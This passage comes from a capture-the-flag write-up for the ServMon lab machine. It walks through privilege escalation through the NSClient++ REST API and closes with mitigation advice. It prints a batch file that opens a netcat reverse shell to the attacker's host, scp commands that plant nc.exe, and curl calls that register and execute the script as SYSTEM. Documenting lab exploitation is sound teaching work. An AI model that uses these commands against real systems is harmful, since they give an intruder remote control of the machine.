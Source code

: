 The next step of the exploit requires a simple batch file for a reverse shell. Let's name it `evil.bat`.

```
@echo off
c:\temp\nc.exe 10.10.14.2 4444 -e cmd.exe
```

Next, we need to get my batch file and `nc.exe` onto _ServMon_. There a few different means to do that, but since we already have an SSH login, we'll use SCP, or secure copy.  

```
$ cp /usr/share/windows-resources/binaries/nc.exe .
$ scp nc.exe nadine@10.10.10.184:/Temp
$ scp evil.bat  nadine@10.10.10.184:/Temp
```

On Kali, we'll start an `netcat` listener.

```
$ nc -lvnp 4444
```

Using the documentation, we run the following command to [add a script](https://docs.nsclient.org/api/rest/scripts/#add-script) that will call our batch file.

```
$ curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary @evil.bat
```

And finally, we will [execute the command](https://docs.nsclient.org/api/rest/queries/#command-execute) to run the script. 

```
$ curl -s -k -u admin https://localhost:8443/api/v1/queries/evil/commands/execute?time=3m
```

Our listener successfully connects, and we now have system shell.

![](images/root.png)

Let's capture the final flag on the Administrator's desktop.

![](images/root-flag.png)

***

### Mitigation

- Firstly, disable anonymous login on FTP. Very few services in an organization benefit from having guest or anonymous logins. In this instance, simply disabling this on FTP would severely limit severity of the directory traversal attack.

- Software, especially public-facing, should be patched quickly, especially when a critical vulnerability like a directory traversal attack exists. If the patch does not become available or the vendor stops support, an organization should consider using different software.

- Never store passwords in plaintext. 

